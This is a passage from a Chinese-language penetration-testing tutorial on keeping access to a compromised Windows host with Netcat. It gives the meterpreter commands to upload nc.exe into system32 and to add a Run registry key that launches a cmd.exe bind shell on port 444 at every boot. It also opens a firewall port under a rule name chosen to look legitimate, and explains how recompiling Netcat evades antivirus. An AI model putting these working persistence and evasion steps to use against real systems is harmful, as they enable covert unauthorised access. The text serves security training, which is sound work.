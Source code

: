此时，我们将专注于使用 Netcat 在受损系统上创建持久 shell。尽管以下示例使用 Windows 作为目标平台，但在基于 Unix 的平台上使用时功能相同。

在下面的截图中显示的示例中，我们将保留可执行文件的名称—`nc.exe`；但是，通常在使用之前将其重命名以最小化检测。即使它被重命名，通常也会被杀毒软件识别；许多攻击者会修改或删除 Netcat 源代码中不需要的部分，并在使用之前重新编译它；这些更改可以改变杀毒软件用于识别应用程序为 Netcat 的特定签名，使其对杀毒软件不可见。

Netcat 存储在 Kali 的`/usr/share/windows-binaries`存储库中。要将其上传到受损系统，请在`meterpreter`中输入以下命令：

```
meterpreter> upload/usr/share/windows-binaries/nc.exe
C:\\WINDOWS\\system32 

```

前一个命令的执行结果显示在以下截图中：

![将 Netcat 作为持久代理](img/3121OS_06_05.jpg)

您不必将其专门放在`system32`文件夹中；但是，由于此文件夹中的文件类型数量和多样性，这是在受损系统中隐藏文件的最佳位置。

### 提示

在对一个客户进行渗透测试时，我们在一个服务器上发现了六个独立的 Netcat 实例。Netcat 被两个不同的系统管理员安装了两次，以支持网络管理；其他四个实例是由外部攻击者安装的，在渗透测试之前没有被发现。因此，始终查看目标系统上是否已安装了 Netcat！

如果您没有`meterpreter`连接，可以使用**Trivial File Transfer Protocol**（**TFTP**）来传输文件。

接下来，配置注册表以在系统启动时启动 Netcat，并确保它在 444 端口上监听（或者您选择的任何其他端口，只要它没有被使用），使用以下命令：

```
meterpreter>reg setval -k
  HKLM\\software\\microsoft\\windows\\currentversion\\run -vv nc
  -d 'C:\\windows\\system32\\nc.exe -Ldp 444 -e cmd.exe' 

```

使用以下`queryval`命令确认注册表中的更改已成功实施：

```
meterpreter>reg queryval -k
  HKLM\\software\\microsoft\\windows\\currentverion\\run -vv nc 

```

使用`netsh`命令，在本地防火墙上打开一个端口，以确保受损系统将接受对 Netcat 的远程连接。了解目标操作系统是很重要的。`netsh advfirewall firewall`命令行上下文用于 Windows Vista 和 Windows Server 2008 及更高版本；`netsh firewall`命令用于早期操作系统。

要向本地 Windows 防火墙添加端口，请在`meterpreter`提示符处输入`shell`命令，然后使用适当的命令输入`rule`。在命名`rule`时，使用一个像`svchostpassthrough`这样的名称，表明`rule`对系统的正常运行很重要。示例命令如下所示：

```
C:\Windows\system32>netsh firewall add portopening TCP 444
  "service passthrough" 

```
